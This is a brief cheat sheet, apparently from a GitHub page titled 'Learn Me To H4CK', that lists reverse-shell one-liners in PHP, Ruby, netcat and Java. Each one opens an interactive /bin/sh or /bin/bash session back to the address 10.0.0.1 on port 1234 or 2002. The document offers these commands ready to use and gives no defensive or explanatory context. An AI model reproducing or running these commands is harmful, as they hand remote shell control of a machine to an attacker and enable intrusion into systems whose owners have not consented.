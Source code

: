 Learn Me To H4CK:

PHP RevShell:

  php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby RevShell:

  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
  
Nc RevShell:

  nc -e /bin/sh 10.0.0.1 1234
  
Java RevShell:

  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
  
  
